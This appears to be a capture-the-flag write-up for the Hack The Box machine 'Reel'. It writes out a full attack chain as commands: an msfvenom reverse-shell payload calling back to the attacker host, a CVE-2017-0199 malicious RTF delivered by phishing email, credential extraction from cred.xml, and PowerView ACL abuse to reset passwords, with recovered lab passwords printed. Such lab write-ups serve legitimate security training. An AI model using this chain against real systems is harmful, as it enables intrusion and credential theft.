 # [Reel](https://app.hackthebox.com/machines/reel)

```bash
nmap -p- --min-rate 10000 10.10.10.77 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p21,22,25,135,139,445,593 10.10.10.77 -Pn
```

![alt text](img/image-3.png)

Let's access to ftp service via `anonymous` user.

![alt text](img/image-1.png)


There's files but I read all of them, there's nothing interesting.


Let's enumerate `SMTP` via `nmap` command.
```bash
nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.10.10.77
```

![alt text](img/image-2.png)


From here, I can see users let's save them into `.txt` file.

![alt text](img/image-4.png)


Let's guess that there's outdated `Microsoft Office` vulnerability which we send malicious document via email `Phishing` attack.


1.First, we need to create our `hta-psh` file via `msfvenom` command.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=1337 -f hta-psh -o dr4ks.hta
```

![alt text](img/image-5.png)

2.Then, we need to open http server to serve this file.
```bash
python3 -m http.server --bind 10.10.14.7 8080
```

![alt text](img/image-7.png)

3.Second, we need to use exploit whose id is [CVE-2017-0199](https://github.com/bhdresh/CVE-2017-0199). 
Here, we create our malicious `.rtf` file to send to our victim.

```bash
python2 CVE-2017-0199/cve-2017-0199_toolkit.py -M gen -w invoice.rtf -u http://10.10.14.7:8080/dr4ks.hta -t rtf -x 0
```

![alt text](img/image-6.png)


4.Then, we need to send `Phishing` email via `sendEmail` command and we need to attach our malicious `.rtf` document.

```bash
sendEmail -f dr4ks@megabank.com -t nico@megabank.com -u "Invoice Attached" -m "You are overdue payment" -a invoice.rtf -s 10.10.10.77 -v
```

![alt text](img/image-9.png)


Hola ! I got shell from port `1337`.

![alt text](img/image-8.png)


user.txt

![alt text](img/image-10.png)


On desktop of `nico` user, I found `cred.xml`, let's read this.

![alt text](img/image-11.png)


To read this, we need to use `Import-CliXml` for powershell.
```bash
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"
```

![alt text](img/image-12.png)


tom: 1ts-mag1c!!!


As we have credentials, we can login into machine via `ssh`.

![alt text](img/image-13.png)


I found `note.txt` file on `tom's` Desktop for location called `C:\Users\tom\Desktop\AD Audit`.

![alt text](img/image-14.png)


I look at `tom's` user's privileges via `net user` command.

![alt text](img/image-15.png)



I found a file about `ACL` Access Control List for domain users in a file called `acls.csv` for location `C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors`.

From this result, I see that `tom` user has `Force-Change-Password` against `claire` user.

![alt text](img/image-16.png)


Let's abuse this via `PowerView.ps1`
```bash
powershell
. .\PowerView.ps1
Set-DomainObjectOwner -identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
$cred = ConvertTo-SecureString "Dr4ks123412" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```

![alt text](img/image-17.png)


We can login to machine via credentials which we set before.

claire: Dr4ks123412

![alt text](img/image-18.png)


From the `bloodhound` analysis, I also saw that `claire` user has `WriteDACL` privilege for `Backup Admins` group, it means this user can add itself to this group.

```bash
net group backup_admins
net group backup_admins claire /add
```

![alt text](img/image-19.png)


Via this user, I can access `Backup Scripts` folder of `Administrator's Desktop`.


I found clear-text password on `BackupScript.ps1` file.
```bash
$password="Cr4ckMeIfYouC4n!"
```

Let's `ssh` into machine via `administrator` credentials.


root.txt

![alt text](img/image-20.png)
